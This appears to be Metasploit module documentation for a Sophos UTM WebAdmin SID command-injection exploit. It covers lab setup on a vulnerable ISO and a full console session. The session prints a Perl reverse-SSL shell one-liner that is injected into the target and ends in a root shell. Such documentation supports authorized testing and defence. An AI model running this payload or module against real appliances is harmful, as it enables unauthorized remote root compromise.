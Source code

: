 ## Vulnerable Application

### Setup

Follow the [setup guide] from Sophos, in particular the [system requirements] and [installation instructions]. You can stop after that.

1. Boot the ISO
1. Follow the on-screen prompts
1. Reboot
1. Hax

Tested against [`asg-9.510-5.1.iso`](#scenarios) (unpatched) and `asg-9.511-2.1.iso` (patched).

[setup guide]: https://docs.sophos.com/nsg/sophos-utm/utm/9.707/help/en-us/Content/utm/utmAdminGuide/Installation.htm
[system requirements]: https://docs.sophos.com/nsg/sophos-utm/utm/9.707/help/en-us/Content/utm/utmAdminGuide/InstallationSystemRequirements.htm
[installation instructions]: https://docs.sophos.com/nsg/sophos-utm/utm/9.707/help/en-us/Content/utm/utmAdminGuide/InstallationInstructions.htm

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Options

## Scenarios

### Sophos UTM 9.510

```
msf6 > use exploit/linux/http/sophos_utm_webadmin_sid_cmd_injection
[*] Using configured payload cmd/unix/reverse_perl_ssl
msf6 exploit(linux/http/sophos_utm_webadmin_sid_cmd_injection) > options

Module options (exploit/linux/http/sophos_utm_webadmin_sid_cmd_injection):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      4444             yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_perl_ssl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  443              yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix Command


msf6 exploit(linux/http/sophos_utm_webadmin_sid_cmd_injection) > set rhosts 172.16.57.254
rhosts => 172.16.57.254
msf6 exploit(linux/http/sophos_utm_webadmin_sid_cmd_injection) > set lhost 172.16.57.1
lhost => 172.16.57.1
msf6 exploit(linux/http/sophos_utm_webadmin_sid_cmd_injection) > set verbose true
verbose => true
msf6 exploit(linux/http/sophos_utm_webadmin_sid_cmd_injection) > run

[+] perl -e 'use IO::Socket::SSL;$p=fork;exit,if($p);$c=IO::Socket::SSL->new(PeerAddr=>"172.16.57.1:443",SSL_verify_mode=>0);while(sysread($c,$i,8192)){syswrite($c,`$i`);}'
[-] Handler failed to bind to 172.16.57.1:443
[*] Started reverse SSL handler on 0.0.0.0:443
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Injecting command: sleep 5
[*] Elapsed time: 5.107014999957755 seconds
[+] The target appears to be vulnerable. Successfully tested command injection.
[*] Executing cmd/unix/reverse_perl_ssl (Unix Command)
[*] Injecting command: perl -e 'use IO::Socket::SSL;$p=fork;exit,if($p);$c=IO::Socket::SSL->new(PeerAddr=>"172.16.57.1:443",SSL_verify_mode=>0);while(sysread($c,$i,8192)){syswrite($c,`$i`);}'
[*] Command shell session 1 opened (172.16.57.1:443 -> 172.16.57.254:43275 ) at 2021-10-21 12:23:57 -0500

whoami
root
```
